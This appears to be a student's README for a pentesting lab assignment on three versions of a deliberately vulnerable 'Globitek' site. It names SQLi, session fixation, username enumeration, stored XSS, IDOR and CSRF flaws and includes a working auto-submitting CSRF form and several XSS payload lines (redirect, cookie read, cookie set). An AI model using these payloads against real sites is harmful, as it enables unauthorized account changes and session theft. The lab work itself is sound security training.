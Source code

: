 # Project 8 - Pentesting Live Targets

Time spent: 8 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection. Reason: Developer forgot to properly sanitize salesperson.php query.

<img src='Blue1.gif' title='SQLI'/>

Vulnerability #2: Session Hijacking/Fixation. Reason: Website does not check if user-agent is the same as the one used when first user login, cookie set without HttpOnly and secure flag, and PHPSESSID is not regenerated and is allowed to be a year old.

<img src='Blue2.gif' title='Session Hijacking/Fixation'/>


## Green

Vulnerability #1: Username Enumeration. Reason: Developer forgot to keep span tag class the same when username is or is not found, leading to vulnerability. 

<img src='Green1.gif' title='Username Enumeration'/>

Vulnerability #2: Cross-Site Scripting. Reason: Detected that Stored XS Script was run in admin feedback panel.

<img src='Green2.gif' title='Cross-Site Scripting'/>


## Red

Vulnerability #1: Insecure Direct Object Reference. Reason: Developer forgot to check if object reference request is made public or not. Other two websites properly redirected user to public/territories folder.

<img src='Red1.gif' title='IDOR'/>

Vulnerability #2: Cross-Site Request Forgery. Reason: Developer forgot to check for CSRF token on salesperson edit form submit, check for domain name, and disallow loading responses onto iframes. 

<img src='Red2.gif' title='Cross-Site Request Forgery'/>

Script used:

```
<!DOCTYPE html>
<html>

<head>
  <title>Real Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://104.197.73.39/red/public/staff/salespeople/edit.php?id=5" method="post" id="f" style="display: none;" target="hidden_results">
    <input name="first_name" value="Malcom" type="text">
    <input name="last_name" value="XX" type="text">
    <input name="phone" value="555-101-1080" type="text">
    <input name="email" value="bthepwr@salesperson.com" type="text">
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```

# Bonus Objective 2

- It is possible to redirect a user to another website by entering the following code in the feedback textbox Green's contact form `<script>window.location.href = "http://example.com";</script>` then submitting.
- The cookie single cookie, PHPSESSID, used throughout the website, it is set using HttpOnly, which prevents it from being accessed in javascript on modern web browsers, but older browsers (Firefox < 3, IE < 6 SP1) might be still be vulnerable, viewable by using XSS `<script>alert(document.cookie);</script>` or `<script>var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      alert(this.getAllResponseHeaders());
    }
  };
  xmlhttp.open("GET", “/“, true);
  xmlhttp.send();</script>`.
- It is possible to set a cookie by using XSS, `<script>document.cookie="username=something";</script>`, in Green's contact form.
 
Testing Bonus Objective 2 

<img src='bonus2.gif' title='Cross-Site Scripting'/>

## Notes



